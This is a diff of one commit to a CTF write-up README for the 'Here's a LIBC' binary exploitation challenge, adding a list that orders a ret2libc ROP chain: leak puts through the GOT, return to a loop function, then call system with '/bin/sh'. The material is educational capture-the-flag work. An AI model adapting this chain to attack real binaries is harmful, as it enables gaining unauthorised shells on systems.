

Before and after one commit to jon-brandy/CTF-WRITE-UP, a Markdown page: Asset/Here's a LIBC/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Asset/Here's a LIBC/README.md
+++ b/Asset/Here's a LIBC/README.md
@@ -294,6 +294,17 @@ sh.interactive()
 26. The program crashed, after analyzing my script, found the problem is at the 1st payload.
 27. We need to add 1 more payload, for this solution i used `do_stuff()` address, it shall do the loops to forbid the binary crashed. But you can make it return to the `main()` function if you want to. It gave me the same result.
 
+```
+offset,
+pop_rdi,
+puts_got,
+puts_plt,
+do_stuff_sym,
+pop_rdi,
+bin_sh,
+system_address
+```
+
 > THE SCRIPT (FINAL)
 
 ```py
````
